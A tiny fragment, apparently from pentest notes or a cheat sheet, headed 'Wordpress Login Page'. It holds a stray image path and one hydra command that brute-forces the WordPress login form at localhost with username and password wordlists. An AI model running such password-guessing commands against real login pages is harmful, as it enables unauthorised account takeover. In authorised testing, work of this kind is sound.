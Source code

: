 				Wordpress Login Page
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'